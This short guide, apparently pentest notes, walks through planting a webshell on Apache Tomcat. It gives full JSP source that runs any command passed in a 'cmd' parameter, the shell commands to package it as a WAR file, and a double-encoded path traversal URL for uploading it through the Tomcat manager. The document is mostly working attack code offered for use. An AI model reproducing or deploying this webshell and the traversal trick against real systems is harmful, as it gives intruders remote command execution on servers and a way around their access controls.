 
This is to create a webshell on Apache Tomcat using a WAR file upload.

1) First build the payload and save as index.jsp:
```HTML
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
  String cmd = request.getParameter("cmd");
  String output = "";
  if(cmd != null) {
    String s = null;
    try {
      Process p = Runtime.getRuntime().exec(cmd,null,null);
      BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
      while((s = sI.readLine()) != null){
        output += s+"</br>";
      }
    } catch(IOException e){ e.printStackTrace(); }
  }
%>
<pre><%=output %></pre>
```

2) Next make a directory named webshell and put in the index.jsp
```CLI
mkdir webshell$ cp index.jsp webshell
```

3) Create the WAR file using JAR:
```CLI
cd webshell
jar -cvf ../webshell.war *
```

4) Then upload the war file to Tomcat manager> 
 You may have to edit the form action to send it through the double encoded:
```URL
/examples/jsp/%252e%252e/%252e%252e/manager/html/upload
```
